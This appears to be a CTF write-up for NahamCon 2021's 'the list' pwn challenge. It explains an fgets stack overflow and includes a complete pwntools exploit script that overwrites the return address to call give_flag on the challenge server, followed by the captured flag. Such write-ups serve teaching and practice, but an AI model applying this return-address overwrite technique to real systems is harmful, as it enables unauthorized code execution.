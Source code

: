 ```yaml
---
title: the list
date: 2021-03-13
categories: [pwn]
tags: [nahamconctf]
toc: false
---
```


```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

#### Notes:
- This program lets you add/delete/change a user on the stack
- When adding a user, you can only add 0x19 bytes
- Deleting a user zeroes out the index you choose, up to 0x20 bytes
- The vulnerability here is when you change a user's name, in fgets()
- fgets(buffer, 0x50, stdin) is vulnerable here because you can overflow the stack by adding a user (0x19) and then changing their name (0x49) repetitively
- So we want to continue doing this until we get control of rip and then return to give_flag() (which just prints out the flag)

#### Main program snippet:

![Snippet of chall](/assets/img/nahamcon2021/screenshot1.png)

#### Vulnerable snippet:

![Snippet of vuln](/assets/img/nahamcon2021/screenshot2.png)

#### PoC:

- By repeating the process of adding a user and changing their name, we eventually reach rip and change the program to return to give_flag()

```Python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template the_list
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('the_list')

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x401a0f
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

def add_user(io, data):
    io.sendlineafter('> ', '2')
    io.sendlineafter('name: ', data)

def change_name(io, user_index, data):
    io.sendlineafter('> ', '4')
    io.sendlineafter('change? ', user_index)
    io.sendlineafter('name? ', data)

def delete_user(io, user_index, data):
    io.sendlineafter('> ', '3')
    io.sendlineafter('delete? ', user_index)

def exit_program(io):
    io.sendlineafter('> ', '5')

#io = start()
io = remote('challenge.nahamcon.com', 31980)

io.sendlineafter('Enter your name: ', 'lmao')

junk1 = b'A'*0x19
junk2 = b'B'*0x49
payload = b'C'*8 + p64(0x401369) # give_flag()

add_user(io, junk1)
change_name(io, '1', junk2)

add_user(io, junk1)
change_name(io, '4', junk2)

add_user(io, junk1)
change_name(io, '7', junk2)

add_user(io, junk1)
change_name(io, '10', junk2)

add_user(io, junk1)
change_name(io, '13', junk2)

add_user(io, junk1)
change_name(io, '16', junk2)

add_user(io, payload)

exit_program(io)

io.interactive()

# flag{0eb219803dbfcda8620dae0772ae2d72}

```

